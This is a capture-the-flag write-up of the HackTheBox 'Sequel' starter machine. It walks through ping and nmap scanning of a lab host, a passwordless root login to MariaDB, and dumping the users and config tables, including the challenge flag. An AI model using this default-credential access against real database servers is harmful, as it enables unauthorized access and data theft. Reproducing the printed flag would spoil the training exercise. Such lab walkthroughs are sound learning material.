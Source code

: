 ```yaml
---
title: HackTheBox - Sequel
date: 2023-12-27 08:30:00 +0700
categories:
  - HackTheBox
  - Starting Point
tags:
  - databases
  - mysql
  - very_easy
  - hackthebox
image:
  path: /assets/img/hackthebox/starting_points/Sequel.png
  alt: Sequel - HackTheBox
---
```


[**Sequel**](https://app.hackthebox.com/starting-point) is one of the Starting Points from [**HackTheBox**](https://app.hackthebox.com/), where in CTF Sequel we will learn about **MySQL (My Sctuctured Query Language)**.

## Introduction

- Connect **Sequel** using **Pwnbox** or **OpenVPN**.
- Spawn machine.

## Enumeration

To check the target connection and port, we can use **Ping** and **Nmap**.

### Ping

After spawn machine, we can start with `ping` Target IP.

```bash
❯ ping 10.129.95.232

PING 10.129.95.232 (10.129.95.232) 56(84) bytes of data.
64 bytes from 10.129.95.232: icmp_seq=1 ttl=63 time=425 ms
64 bytes from 10.129.95.232: icmp_seq=2 ttl=63 time=257 ms
64 bytes from 10.129.95.232: icmp_seq=3 ttl=63 time=266 ms
64 bytes from 10.129.95.232: icmp_seq=4 ttl=63 time=504 ms

--- 10.129.95.232 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3005ms
rtt min/avg/max/mdev = 256.704/362.845/503.874/105.416 ms
```

### Nmap

Scan ports using `nmap`, `-sCV` is a combination of `-sC` and `-sV`, where `-sC` displays the script for the port and `-sV` displays the version info for the port, `-T4` to speed up scanning (the higher the faster [0-5]).

```bash
❯ nmap 10.129.95.232 -sCV -T4

Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-27 08:31 WIB
Nmap scan report for JSN.JaringanKU (10.129.95.232)
Host is up (0.26s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE    SERVICE        VERSION
1862/tcp filtered mysql-cm-agent
3306/tcp open     mysql?
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 66
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, SupportsCompression, FoundRows, ConnectWithDatabase, LongColumnFlag, SupportsTransactions, IgnoreSigpipes, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolNew, ODBCClient, SupportsLoadDataLocal, InteractiveClient, Speaks41ProtocolOld, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: '\c[~+VOh@Cq1=~'D]*X\'
|_  Auth Plugin Name: mysql_native_password
3371/tcp filtered satvid-datalnk

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 239.68 seconds
```

You can see, there are 3 results but the only one that opens is 3306/tcp which is the mysql service.

## Foothold

To run `mysql`, make sure you have the service, if you don't have it, download it. To ask for help use `--help`.

### Mysql

Use `-h` to connect to the host, and `-u` to log in using the username. Here we use the default user, namely `root` and we do not need to enter a password.

```
show databases; -> to display all databases.
use database; -> to use a database.
show tables; -> to display tables in the database.
select * from table; -> to display all the contents of the table.
```

```bash
mysql -h 10.129.95.232 -u root

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 74
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0,244 sec)

MariaDB [(none)]> use htb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0,233 sec)

MariaDB [htb]> select * from users;
+----+----------+------------------+
| id | username | email            |
+----+----------+------------------+
|  1 | admin    | admin@sequel.htb |
|  2 | lara     | lara@sequel.htb  |
|  3 | sam      | sam@sequel.htb   |
|  4 | mary     | mary@sequel.htb  |
+----+----------+------------------+
4 rows in set (0,232 sec)

MariaDB [htb]> select * from config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0,589 sec)
```
